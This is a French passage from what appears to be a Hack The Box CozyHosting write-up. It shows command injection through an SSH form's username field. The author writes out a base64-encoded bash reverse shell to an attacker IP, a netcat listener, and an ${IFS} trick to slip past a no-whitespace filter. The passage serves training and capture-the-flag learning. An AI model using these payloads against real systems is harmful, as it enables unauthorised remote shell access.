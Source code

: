 J'ai maintenant accès au tableau de bord de l'utilisateur.

![cozyhosting-dashboard](/images/HTB-CozyHosting/Dashboard.png)

Il y a un autre champ de saisie, qui semble fonctionner avec des clés SSH.

![cozyhosting-SSH-note](/images/HTB-CozyHosting/cozyhosting-SSH-note-1.png)

J'utilise Burp Suite pour capturer la requête. J'essaie `cozyhosting:test` et le résultat est le message `host key verification failed` (échec de la vérification de la clé d'hôte). Après avoir entré un `hostname` et un `username`, le formulaire envoie une requête au point de terminaison `/executessh`.

![cozyhosting-host-key-failure](/images/HTB-CozyHosting/host-key-verification-fail.png)

Je constate également que l'application essaie d'exécuter des commandes bash et j'obtiens une erreur lorsque `/bin/bash -c` est exécuté.

![cozyhosting-bash-error](/images/HTB-CozyHosting/binbash-error.png)

## Accès initial

Maintenant que je sais qu'une commande bash est exécutée, je peux essayer d'obtenir un reverse shell à travers ce processus.

J'ai utilisé cette commande pour générer mon payload en base64.

```
echo "bash -i >& /dev/tcp/<your-ip>/<your-port> 0>&1" | base64 -w 0
```

![cozyhosting-payload](/images/HTB-CozyHosting/payload-generated.png)

**Mettre en place un listener netcat avant d'essayer de se connecter**

```
nc -nvlp <YOUR-PORT-NUMBER>
```

J'essaie de me connecter avec `cozyhosting` comme hostname et pour le username j'utilise la commande ci-dessous (j'utilise mon payload base64 généré plus tôt avec la commande `echo`)

```
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMjIvODAwMCAwPiYxCg=="
```

J'obtiens un message disant `Username can't contain whitespaces!`. J'utilise alors le paramètre bash `{IFS%??}` pour supprimer les espaces du payload.

```
;echo${IFS%??}"<your payload here>"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

Après avoir utilisé le nouveau payload, j'obtiens un reverse shell!

![cozyhosting-reverse-shell](/images/HTB-CozyHosting/rev-shell.png)
